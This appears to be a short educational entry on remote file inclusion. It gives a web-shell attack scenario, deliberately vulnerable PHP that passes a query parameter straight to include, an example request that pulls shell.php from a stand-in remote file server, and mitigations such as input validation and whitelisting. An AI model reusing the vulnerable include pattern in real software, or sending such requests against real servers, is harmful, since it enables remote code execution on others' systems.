 <p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/remote-file-inclusion/main/remote-file-inclusion.png"></p>

A threat actor may cause a vulnerable target to include/retrieve remote file

## Example #1
1. A threat actor uploads a PHP web shell to a temporary file service
2. A threat actor sends a malicious request that includes the remote file name to a vulnerable target
3. The vulnerable target executes malicious files as PHP

## Code
#### Target-Logic
```php

#allow_url_include = On

<?php
  $file = $_GET["file"];
  include $file;
?>
```

#### Target-In
```
http://vulnerable.test/index.php?file=http://fileserver.test/shell.php
```

#### Target-Out
```
root
```

## Impact
High

## Names
- Remote file inclusion
- RFI

## Risk
- Read & Write data
- Command Execution

## Redemption
- Input validation
- Whitelist

## ID
cb60059e-846f-40df-9dbd-e687e8d6960a

## References
- [Wikipedia](https://en.wikipedia.org/wiki/file_inclusion_vulnerability)
